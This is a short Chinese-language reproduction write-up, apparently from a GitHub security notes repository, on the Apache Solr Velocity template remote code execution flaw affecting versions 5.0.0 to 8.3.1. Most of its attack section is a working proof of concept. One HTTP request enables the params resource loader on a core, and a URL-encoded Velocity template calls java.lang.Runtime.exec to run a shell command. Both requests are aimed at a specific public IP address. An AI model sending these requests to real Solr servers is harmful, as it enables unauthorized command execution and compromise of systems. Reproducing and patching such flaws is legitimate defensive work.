


# Solr < 8.3.1 RCE

## 漏洞描述

5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令

## writeup

- 待执行命令 

```
pwd
```

- 创建core

```
docker exec solr bash bin/solr create_core -c demo
```

- POC

开启 params.resource.loader.enabled

```
POST /solr/demo/config HTTP/1.1
Host: 106.53.141.62:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

注入Velocity模板即可执行任意命令

```
GET /solr/demo/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27pwd%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 106.53.141.62:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36


```

## 复现结果

开启 params.resource.loader.enabled



注入Velocity模板即可执行任意命令


